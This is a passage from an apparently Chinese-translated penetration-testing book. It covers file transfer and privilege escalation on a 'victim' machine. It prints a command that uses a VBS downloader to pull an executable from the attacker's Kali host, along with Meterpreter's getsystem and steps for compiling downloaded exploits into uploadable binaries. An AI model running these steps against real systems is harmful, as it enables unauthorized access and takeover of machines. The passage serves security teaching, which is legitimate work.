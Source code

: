 执行`wget_win.vbs`脚本：

```
cscript wget_win.vbs http://[Kali IP address]/[File Name] get-admin.exe
```

我选择了文件名`get-admin.exe`。你不必使用相同的名字；你可以使用任何你喜欢的名字。

# 管理员或 root 权限

输入所有这些命令是耗时的。为了更快地完成这个过程，最好的方法是通过前一部分中描述的方法上传一个脚本文件到受害者的机器，*文件传输*。网上最好的脚本可以从以下 GitHub 仓库下载：

+   **适用于 Windows**：[`github.com/pentestmonkey/windows-privesc-check`](https://github.com/pentestmonkey/windows-privesc-check)

+   **适用于 Linux**：[`github.com/pentestmonkey/unix-privesc-check`](https://github.com/pentestmonkey/unix-privesc-check)

如果你使用 Metasploit 并且拥有 Meterpreter 会话，请使用以下命令提升权限：

```
meterpreter > getsystem
```

请参阅*附录 B*，以获取 Metasploit/Meterpreter 权限提升的完整指南。

Windows 权限提升漏洞通常用 Python 编写。你可以下载`pyinstaller.py`将漏洞转换为可执行文件并上传到远程服务器，例如：

+   **安装 PyInstaller**：`$pip install pyinstaller`

+   **下载你的漏洞**：`$wget http://[漏洞 URL]`

+   **转换它**：`$python pyinstaller.py --onefile [python file.py]`

有些漏洞是用 C 语言编写的。要编译 C 语言二进制文件，请执行以下命令：

`$gcc -o [输出文件名] [原始二进制文件.c]`

# 总结

本章涵盖了许多话题，从信息收集到权限提升。我尽力涵盖了最重要的内容，并且直接切入重点，省略了琐碎的细节，以便在单章中最大限度地覆盖话题。

本章你学到的只是渗透测试的部分内容。事实上，本章我们只涉及了基于网络的评估。在下一章，我们将讨论基于 Web 应用的渗透测试。
